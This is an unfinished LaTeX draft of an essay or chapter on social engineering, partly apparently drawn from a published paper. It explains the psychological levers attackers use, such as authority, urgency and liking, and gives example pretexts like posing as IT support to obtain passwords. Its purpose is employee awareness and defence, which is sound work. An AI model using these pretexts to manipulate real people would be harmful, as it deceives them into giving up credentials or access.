In a somewhat ironic twist, by the time security experts begin their work on Monday morning, cyber attackers and social engineers have already been busy. As the security teams commence their day, they engage in tasks such as reviewing the latest developments, addressing emails, and methodically progressing through their task lists, all aimed at fortifying their technical, physical, and human safeguards. On the other hand, adversaries are active every single day of the week, meticulously seeking out that singular vulnerability within an organization's security framework that could grant them access.
Cybercriminals consistently possess a significant asymmetrical edge, as they focus on uncovering just one exploitable weakness. Meanwhile, cybersecurity experts are tasked with safeguarding an organization across multiple layers of defense, advocating for increased budgets and the support of management and employees. They face complex choices and must prioritize specific security challenges above others to ensure comprehensive protection.
Currently, the digital realm is expanding at a remarkable pace. The internet is being increasingly adopted as an avenue for communication, commerce, education, and leisure. Yet, this significant transition has prompted critical online security and privacy issues for users. While stringent security protocols are in place, numerous cyberattacks occur due to exploiting application design flaws, fraudulent activities, or sophisticated technical tactics. Notably, scams have existed long before computers and the internet came about. In the realm of cybersecurity, scams or phishing are identified as Social Engineering (SE) attacks. These are attacks that target human weaknesses employing tactics such as deception, persuasion, manipulation, or influence.
Today's cyber security experts are consistently investing in bolstering technological defenses against cyber threats. However, as reflected in numerous threat analyses published in recent years, modern cyber criminals increasingly target people as it is a more straightforward approach than attacking technology. Despite continuous advancements in security technology that improve system resilience and complexity, human nature has remained constant for centuries, making it predictable and exploitable. This method is both cost-effective and low-risk, yielding significant benefits for cyber criminals. Rather than merely applying brute force techniques on an organization's passwords, attackers can exploit psychological tactics to manipulate an unsuspecting employee into divulging passwords and other sensitive credentials.
It is logical to assert that employees with access to an organization's vital resources become prime targets for social engineering schemes. The aim of such attacks is to manipulate employees into granting access to systems, assets, or confidential data. Those with access to technological and organizational resources bear the responsibility for safeguarding them. However, are these employees adequately equipped and qualified for this duty? Are they sufficiently aware and skilled to fulfill these expectations and defend their assets against threats posed by malicious actors and social engineering tactics?
A major challenge in today's cyber security efforts is the lack of \textit{effective }information security awareness and training. Many organizations and companies of the public and the private sector continue to believe that cyber security is only a technical, not a strategic and behavioral discipline. They believe that cyber security involves only the protection of systems from threats like unauthorized access, not the awareness and training of persons that have authorized access to systems, information and organizational assets. Therefore, they invest significantly less in any processes or measures that have to do with the human perimeter of their organization.

This becomes a susceptibility within the organization that can be capitalized on. It represents an oversight that adversaries are all too eager to take advantage of.
\textbf{Engineers of Human Behavior}

The core principle of Social Engineering revolves around harnessing human psychology. Opponents strategically apply psychological tactics, using deceit and manipulation to target innate decision-making processes that influence actions and incentives. Human vulnerabilities exhibit predictable stimulus-response patterns, making the exploitation of these weaknesses reliably effective; however, before examining the psychological manipulation aspect, it is crucial to first explore the expertise and approach employed by social engineers.
Social engineers excel at studying and understanding human behavior. They often possess innate social talents, show charm, or have a keen interest in understanding human nature and honing the skill of reading others. By practicing, they master the recognition of emotions and thoughts conveyed through nonverbal cues, including body language and vocal intonation. This ability is crucial, as it enables them to steer conversations and influence their targets by attentively observing reactions and adapting their own strategies accordingly.
When interacting with individuals, do they appear cautious or suspicious? If so, they retreat and work to build trust. Should this effort fail, they realize that they must abandon this target, as persisting might be perilous. Conversely, if they detect that sufficient trust and possibly likability have been ingrained, they proceed to make bolder requests that promise higher rewards. It resembles executing a meticulously developed algorithm on human actions. This implies that social engineers dynamically tailor their deceit strategy based on their targets' responses, continuously refining their approach in real-time. By modifying their own actions, they effectively "engineer" and steer the conduct of those they are engaging with.
However, there is more to consider. Skilled social engineers conduct thorough research on their targets' backgrounds before engaging them. This process typically involves aggregating snippets of data from sources such as social media, blog posts, or simply by distant observation. They meticulously analyze their targets' professional schedules, behaviors, dialogues, and any other details that provide insight into their daily routines, mental processes, and behavioral trends. Armed with this intelligence, they strategize their approach to align seamlessly with their targets' profiles. The objective is to quickly capture the target and establish immediate trust in their initial interaction. This early foundation of trust becomes crucial in facilitating the subsequent stages of the attack.
The ultimate aim of social engineers is to persuade their targets to willingly disclose confidential information or grant access to corporate systems and resources. Typically, victims assist these covert social engineers, either out of a perceived benefit or simply due to their enjoyment of the interaction, without realizing that their actions might jeopardize their organizations.\begin{figure}
    \justifying
    
\includegraphics[width=0.75\linewidth]{socengattstr.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
 
Social engineering is an art and science that combines both technical and behavioral skills, with the emphasis on behavioral rather than technical. The remainder of this section will discuss some of the very common social engineering approaches along with the analysis of the psychological exploitation that comes into play for a successful attack; however, while there are some common approaches or scenarios, the potential amount of social engineering methodologies and scenarios can be endless and ultimately depend on the attacker's creative imagination and influential capability.

\textbf{Programming The Trust Algorithm}

No social engineering attacks would be possible if the attackers were not able to first build trust with their targets. Whether the attack vector is emails, the phone, or a personal interaction, victims must first believe the cover story delivered by the attackers. Only then they will take the next steps that the social engineers indicate that eventually lead to an effective compromise.

But how can someone program the trust process of another individual? Is it even possible to engineer a trust relationship? The answer is yes. In fact, the field of psychology teaches us that there are multiple ways to establish trust with someone. Unfortunately, the rules of trust are the same in both honest and deceptive relationships. This is also the reason why it is often hard to differentiate one from the other when encountering an individual or a communication request (e.g. email or phone call).

Let us start from scratch. All humans naturally pay attention to a few key elements when encountering someone for the first time. These are some of the mental questions that go through our heads, often without even realizing that:

- “I like him/her” (or the opposite)
- 'Who is this person?'
- 'Why is this person reaching out to me?'
- Does he / she have authority over me?

Social engineers know these mental questions, and the fact that we go through this mental checklist within milliseconds of a first interaction. These are the so-called “cognitive filters” we all have in order to evaluate another individual. Social engineers make sure they have good answers to these mental questions, in order to immediately hack-through the walls of our initial suspicion and gain a quick trust advantage. They do that, by heavily relying on psychological principles that all of us are used to operate by.

Therefore, social engineers often tend to use cover stories that tend to include:

\textbf{Persons or organizations with authority}

People tend to assign immediate trust to authoritative figures and not doubt their intention. Social engineers will impersonate company executives, lawyers or technicians. The attackers have already investigated which authoritative figures are suitable for each of their victims.

\textbf{Social Proof}

People are more willing to do something or trust a situation or interpersonal dynamic when they observe other people doing it first. They also put a lot of weight into other people’s endorsements. Psychological studies repeatedly show that we often evaluate a situation based on what other people think of it. Social engineers exploit this principle by name-dropping. They might contact a target by first mentioning that someone else (often with authority over the target) recommended that they must communicate with the target. Or they initiate contact by saying that they are currently replacing another specific person from a partner company the target used to communicate with. The social engineers then can proceed by engaging the targets in conversations with the goal of gathering information, or by sending malicious emails and cashing on the trust they have established with the targets through social proof.

\textbf{Consistency}

This is a highly valued trait in today’s society. People associate consistent behaviours with people that are reliable, intelligent, trustworthy, and other highly praised traits. Due to this social norm, people tend to care a lot about appearing consistent. Once someone has made a choice or has taken a stand, they go through great personal and interpersonal pressure to defend that stance. Social engineers often use this principle to gather sensitive information. Once they have made their targets answer small or innocent requests, they request more valuable information. Most often their targets, since they have already gotten in the habit of answering, feel an inner pressure to keep replying to the questions and self-justifying the reasons they do so, even when they start becoming uncomfortable or suspicious. As the conversation progresses, it also becomes harder to turn down the persons they are interacting with.

\textbf{Liking}

People like people who are similar to them, or who show admiration to them. When people are similar to us, we tend to perceive them as belonging to “our tribe”. Psychological studies have shown that when people appear to be or think like we do, we automatically assign some other psychological characteristics to them. Specifically, we automatically assume that they also share similar backgrounds, way of thinking, and more. Our brains, being highly automated, immediately translate this into trustworthiness. Social engineers invest heavily in building rapport with their targets and work hard to increase their likeability and level of trust.

People prefer to open up and respond positively to requests from people they like. The targets of this approach tend to drop their mental guards rather quickly. The result? They are much more likely to answer questions and provide information, as well as bypass security policies by opening malicious email attachments, or even open physical security doors to the social engineer that is of course, impersonating someone else.

\textbf{Scarcity}

The thought of loosing an attractive opportunity or missing on a “limited availability” offer tends to hold a lot of weight in the human decision making process. Items that are limited or scarce, are frequently perceived as more valuable and more attractive. This creates desire. But it also creates a sense of urgency. Combined, they make people more than willing to take more than a few shortcuts on the critical thinking processes. In marketing, this principle is at full-force when marketers make statements like “this item is selling fast- only 5 left in stock!” or “this is a limited edition item”. In social engineering, we can see this approach in the phishing email scenarios where the targets are promised to “receive 1 of the 15 iPads/iPhones/expensive gadgets available by filling in a survey”, or “rush to claim their reward” (by clicking on a malicious link). We can also see this approach when a social engineer places a vishing call, impersonating someone with authority, and claims that they only have 15 minutes to resolve an issue. This tactic connects with the principle of “time pressure” (below).

\textbf{Urgency/ Time pressure}

Time pressure is a motivating factor connected to the one of scarcity, not in terms of making an action desirable, but in terms of giving someone a very short amount of time to fulfil a request. The time pressure is often big enough to make one skip essential critical thinking and analytical processes while acting on a request. Social engineers benefit a lot by making their targets skip any real thinking processes. Ideally, they want their targets to operate without thinking at all. Therefore, plenty of the social engineering scenarios (pretexts) involve the factor of time pressure or other tactics that block our critical thinking. These attacks may come in the form of spear phishing emails impersonating executives claiming that they want an immediate transfer of funds to a specific account, while adding that the matter is time-sensitive. Or it may come in the form of a vishing call from social engineers impersonating technicians, stating that they need to run a few remote updates within the next hour and therefore would need the login credentials of employees, or other sensitive information.

These are only some of the psychological principles that social engineers repeatedly try to exploit. They often combine them, to increase their level of influence.

\textbf{Incorporating Psychological Pressure into Attack Scenarios}

Attackers keep using old and tried cover stories that have proven to be consistently successful, because these stories involve the exploitation of the psychological principles mentioned above. One common attack scenario is the vishing (phone-based) attack, where the attackers call employees and pretend to be IT support staffers. Then they proceed to explain their cover story: For example, they may say that they are running some critical system upgrades and that they need an employee’s username and password in order to proceed. Or they may say that they have developed a new online communication platform for employees and ask them to register for it through a phishing email that they consecutively send, containing a malicious link. They utilize the principle of authority over the target’s technical infrastructure and may include a component of urgency by notifying their targets that their update needs to happen immediately. Although this social engineering scenario has been known for years, attackers keep using it and unfortunately, it still works.

Users can recognize an attack from certain red flags. For example, many social engineering pretexts use the combination of fear and time pressure to push an employee towards immediate action - this is an immediate red flag. Also, no matter what the cover story is, most attacks boil down to specific requests that should make an employee suspicious. For example, requests for sensitive information, or requests to click a link. Employees need to learn how to recognize the red flags, how to respond to them, and how to verify the contact person in a business-appropriate manner. This happens through training.

\textbf{Human Zero-day Exploits}

Although many social engineering techniques or scenarios are known, there are many that are not. Some of them are often associated with higher exploitation potential for high value targets. Social engineers thoroughly investigate their targets and can adopt an approach that is tailored to each specific target, in ways that it is difficult to detect the attack. The high value targets are often members of the C-Suite, executives, or people with important access privileges.

When determined social engineers target more difficult, yet rewarding targets, they put in the time and effort to analyse these specific targets as well as possible. They may seek to find their routines, interests, habits, physical locations, etc. But what they are most interested in, are their psychological characteristics, vulnerabilities and overall psychological profiles. Threat actors have a deep knowledge of psychology, have better resources and capabilities, and often belong to an organized group. They utilize psychological profiles they craft by seeking to identify and exploit personal characteristics of the targets they seek to victimize.

They will find a way to physically or virtually approach their victims with tempting personas and build a relationship with them. Alternatively, they may choose to blackmail their victims, or recruiting them. These types of attacks are based on personal human vulnerabilities of the targets that even the victims themselves might not be aware of, and even more certainly so, the security teams that work in their organization. These are the Human Zero-day exploits. For persons that have priviledges and access rights critical for an organization, specialized security experts must come in to conduct a \textit{personal vulnerability assessment,} and proceed with personalized training based on the assessment.

\textbf{Epilogue}

We cannot fully protect employees against social engineering attacks. What we can do, is teach them how to protect themselves and their organizations. The most exploitable factor in social engineering is ignorance. A person that does not know the tactics and methods used from social engineers, is defenceless against them.

Social engineers target our employees directly and seek to have an encounter with them. Sooner or later some of our employees will get targeted again by attackers. When this occurs, they will have to:

a) Identify that this is an attempt for a social engineering attack,

b) Respond to the attack by gracefully disengaging,

c) Report it to their organization (given that a reporting mechanism is in place).

They must understand that security is a shared responsibility, and that they play a significant role in it. At the same time, security professionals must understand that this is a growing threat and one that will keep being exploited, unless we build up more knowledge and skills within our organization to combat these attacks. This effort must be supported by a good cybersecurity culture. While attackers develop their skillset and invest time, resources and strategic thinking, it is not enough for us to simply inform employees about the threats. We must build their skillset in recognizing and defending against them, which can only be done with targeted employee trainings. Ideally in person, and more than once per year for 60 minutes.

The mentioned vulnerabilities are exploited to acquire confidential information, unauthorized access, knowledge of cybersecurity measures, etc. The main concern for security experts in countering SE-based attacks is the absence of a pattern or methodology. In some cases, even the target is unaware that they are being manipulated or influenced by the perpetrator. Due to such hazy characteristics of SE-based attacks, existing countermeasures struggle to stop such attacks. Recently, there were several large-scale security breaches, compromising the vulnerable human factor. Despite the advancements in technology, humans play an integral part in functional organization. This human element in the organizational security chain is inevitably targeted and exploited by hackers. Figure 1 shows some of the most common tools and a basic flow of cyberattacks based on SE.
\begin{figure}
    \justifying
    
\includegraphics[width=0.75\linewidth]{socengflow.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
 In the last two years, the most prominent mediums used to conduct SE attacks were social media and smishing attacks. The majority of cyberattacks based on SE rely on actual interactions between the attacker and the victim. In some cases, SE attacks can involve a simple phone call, with an individual impersonating an employee to garner information, such as a password or a PIN code. In 2020, Americans lost approximately USD 29.8 billion in phone scams [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B10-applsci-12-06042}{\textbf{10}}]. \href{https://www.mdpi.com/2076-3417/12/12/6042\#table_body_display_applsci-12-06042-t001}{\textbf{Table 1}} provides a broad overview of attacks based on SE methods. The attacks highlighted in \href{https://www.mdpi.com/2076-3417/12/12/6042\#table_body_display_applsci-12-06042-t001}{\textbf{Table 1}} are some of the most prominent breaches in the last few years. These breaches occurred due to a combination of human errors and SE attacks. Based on \href{https://www.mdpi.com/2076-3417/12/12/6042\#table_body_display_applsci-12-06042-t001}{\textbf{Table 1}}, it can be seen that human error can also play a key role in conducting SE attacks. To conduct SE attacks, hackers can even influence a victim into making an error. Common methods used to influence targets are discussed later in the chapter. Other than the financial costs, data breaches can also lead to the loss of customers due to security concerns. These attacks are highly impactful and easy to conduct. Based on the studies conducted for this work, as well as our understanding, the countermeasures for SE-based attacks lack the understanding of human behavior. Few of the published works highlight the interconnection between human vulnerabilities and SE attacks. This study further enhances the existing knowledge of human behavioral vulnerabilities and how they are exploited by hackers. After highlighting the importance and impact of cyberattacks based on SE, the rest of the chapter is organized as follows. \href{https://www.mdpi.com/2076-3417/12/12/6042\#sec2-applsci-12-06042}{\textbf{Section 2}} provides a brief overview of well-known cyberattacks based on SE and how they are conducted. \href{https://www.mdpi.com/2076-3417/12/12/6042\#sec3-applsci-12-06042}{\textbf{Section 3}} provides a perspective on common human emotions or errors that can be exploited to conduct SE attacks. The section also presents the current standings and concerns of machine learning (ML) and existing countermeasures against SE-based cyberattacks. \href{https://www.mdpi.com/2076-3417/12/12/6042\#sec4-applsci-12-06042}{\textbf{Section 4}} highlights the concerns of existing solutions, including a summary of the topics discussed in this chapter. \href{https://www.mdpi.com/2076-3417/12/12/6042\#sec5-applsci-12-06042}{\textbf{Section 5}} concludes the chapter.


 \textbf{Table 1.} Some of the most prominent social engineering-based cyberattacks.


\subsection{\textbf{2. Social Engineering Attacks}}

Social engineering can be defined as a process used to exploit human psychology, rather than a sophisticated hacking method [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B18-applsci-12-06042}{\textbf{18}}]. With growing reliance on technology, SE is becoming a key tool for cyberattacks. Conversely, due to the increasing number of cyberattacks, the technical methods used to counter cyberattacks are also improving [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B19-applsci-12-06042}{\textbf{19}}]. These continuous improvements of security methods are making technical attacks difficult to execute. On the other hand, SE is proving to be a highly successful approach used to conduct cyberattacks. Cyberattacks based on SE can facilitate attackers in several ways, i.e., infiltrating organizational networks, bypassing firewalls, infecting systems with malware, opening back-doors in the organization network, etc. Cyberattacks that use SE can exploit or influence human behavior in many ways. For instance, human error can be used to initiate an attack. Attackers can enforce an individual to err by influencing the decision-making process. Details on how decision-making is influenced are discussed later in the chapter. Similarly, several other human behaviors can be exploited to conduct cyberattacks based on SE [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B20-applsci-12-06042}{\textbf{20}}]. In this section, some of the most common cyberattacks based on SE are discussed.

\paragraph{\textit{2.1. Phishing Attack}}

Phishing attacks are among the most successful attack methods in SE-based attacks. Each day, millions of scam emails are sent by hackers, some are detected and blocked by different technical solutions [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B21-applsci-12-06042}{\textbf{21}}]. However, some scam emails do manage to evade these systems. Phishing attacks typically start with a scam email that lures a victim into a trap. For instance, a phishing email may appear to come from an authentic source.The method of luring a victim can vary depending on who the victim is, i.e., the email may ask the victim to click the link for your travel expense receipt, click the link to win a prize, etc. Falling victim to such phishing emails is based on human behavior attributes [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B22-applsci-12-06042}{\textbf{22}},\href{https://www.mdpi.com/2076-3417/12/12/6042\#B23-applsci-12-06042}{\textbf{23}}]. The process of a common phishing attack can be seen in \href{https://www.mdpi.com/2076-3417/12/12/6042\#fig_body_display_applsci-12-06042-f002}{\textbf{Figure 2}}. A phishing attack can be conducted in several different ways. Two of the most common methods can be seen in \href{https://www.mdpi.com/2076-3417/12/12/6042\#fig_body_display_applsci-12-06042-f002}{\textbf{Figure 2}}. As these attacks evolve, the goal of any type of phishing attack is to steal personal credentials or information. Some phishing attack types can be seen in \href{https://www.mdpi.com/2076-3417/12/12/6042\#table_body_display_applsci-12-06042-t002}{\textbf{Table 2}} [\href{https://www.mdpi.com/2076-3417/12/12/6042\#B24-applsci-12-06042}{\textbf{24}},\href{https://www.mdpi.com/2076-3417/12/12/6042\#B25-applsci-12-06042}{\textbf{25}}].
\begin{figure}
    \justifying
